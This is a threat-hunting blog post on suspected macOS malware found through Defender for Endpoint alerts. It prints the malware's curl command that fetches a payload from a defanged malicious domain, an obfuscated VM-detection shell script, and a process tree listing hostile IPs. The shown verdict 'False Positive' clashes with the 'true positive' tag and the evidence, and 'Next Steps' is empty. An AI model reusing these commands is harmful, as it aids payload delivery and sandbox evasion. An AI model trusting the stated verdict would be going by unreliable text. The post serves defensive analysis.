 ```yaml
---
title: Mac Malware?
date: 2022-05-19 11:39 +0200
categories: [Hunting, MDE]
tags: [mde, hunting, true positive]
---
```

{% include mermaid.liquid %}

Today we investigate some strange discovery actions by processes on a macbook

## The Alert
In the essence this alert was showing multiple different processes doing very similar actions, for sake of simplicity we will focus on one.
In most cases the process [xpcproxy](https://www.unix.com/man-page/osx/8/xpcproxy/) was used to run a sub process which in turn started some bash commands.
For this investigation I put xpcproxy out of scope as it did not seem to be part of a malicious execution chain (my mac knowledge is basic)
This xpcproxy would run an executable for example apadecoded and this in turn would run new processes example:
```bash
/bin/sh /var/folders/zz/zyxvpxvq6csfxvn_n0000000000000/T/FE8B53AE-FE86-4FF8-98E1-D7987304368D
```
apadecoded itself looks already strange enough and is also found on VT, but what is this "FE8B53AE-FE86-4FF8-98E1-D7987304368D"?

It seems like this executable toes a download of some additional code from external and extracts it to "/private/var/tmp/helpexecd/helpexecd"
```bash
/usr/bin/curl -s -L -o /var/tmp/helpexecd.tgz hxxp://cdn[.]eniqdix[.]icu/static/s3/exec6625/helpexecd[.]tgz
tar -xzf /var/tmp/helpexecd.tgz -C /var/tmp/helpexecd/
```
And then it runs this helpexecd which amongst other things runs this bash script:
```bash
/bin/sh -c 'readonly VM_LIST="VirtualBox\|Oracle\|VMware\|Parallels\|qemu";is_hwmodel_vm(){ ! sysctl -n hw.model|grep "Mac">/dev/null;};is_ram_vm(){(($(($(sysctl -n hw.memsize)/ 1073741824))<4));};is_ped_vm(){ local -r ped=$(ioreg -rd1 -c IOPlatformExpertDevice);echo "${ped}"|grep -e "board-id" -e "product-name" -e "model"|grep -qi "${VM_LIST}"||echo "${ped}"|grep "manufacturer"|grep -v "Apple">/dev/null;};is_vendor_name_vm(){ ioreg -l|grep -e "Manufacturer" -e "Vendor Name"|grep -qi "${VM_LIST}";};is_hw_data_vm(){ system_profiler SPHardwareDataType 2>&1 /dev/null|grep -e "Model Identifier"|grep -qi "${VM_LIST}";};is_vm(){ is_hwmodel_vm||is_ram_vm||is_ped_vm||is_vendor_name_vm||is_hw_data_vm;};main(){ is_vm&&echo 1||echo 0;};main "${@}"'
```
Now this feels like malware trying to figure out if it's running in a sandbox, highly fishy!

## Hunting deeper

If we look at more cases of the same endpoint we can see that the same thing that apadecoded does, what's more interesting is, that there are many processes starting the exact same behaviour.
Here is a list of observed ones:
 * canonistical
 * noble
 * odontolite
 * intrinsicalness
 * TestDate
 * SysUpdater
 * leam
 * recommitment
 * TestDateDaemon
 * apadecode
 * apadecoded

<div class="mermaid">
%%{init: {"theme": "dark"}}%%
flowchart TD;
    kernel_task -->|run| launchd;
    launchd --> |run|xpcproxy;
    xpcproxy --> |run| apadecoded;
    apadecoded -->|run| 451CEB63-C438-40C3-899F-0BE4F425F074;
    apadecoded -->|run| DFBDC5FD-3F69-472A-832B-C8C394560BC4;
    apadecoded -->|run| AF0DBE7E-0247-4D2C-8D8D-36BDB5C5EF09;
    451CEB63-C438-40C3-899F-0BE4F425F074 -->|run| curl;
    DFBDC5FD-3F69-472A-832B-C8C394560BC4 -->|run| curl;
    AF0DBE7E-0247-4D2C-8D8D-36BDB5C5EF09 --> |run|curl;
    curl -->|download| cdn.eniqdix.icu/static/s3/exec6625/helpexecd.tgz;
    cdn.eniqdix.icu/static/s3/exec6625/helpexecd.tgz --> 89.187.162.142;
    cdn.eniqdix.icu/static/s3/exec6625/helpexecd.tgz --> 89.187.162.134;
    89.187.162.142 --> helpexecd;
    89.187.162.134 --> helpexecd;
    helpexecd --> 35.160.226.50;
    helpexecd --> 34.217.226.241;
    style kernel_task stroke-dasharray: 88.5 44
</div>


## Verdict

| Indicator                              | Thoughts                                                                                                            | Verdict |
|----------------------------------------|---------------------------------------------------------------------------------------------------------------------|---------|
| CMD started by User                    | Either compromise of host, or legitimate action by user                                                             | -10%    |

**Verdict: False Positive**

## Next Steps

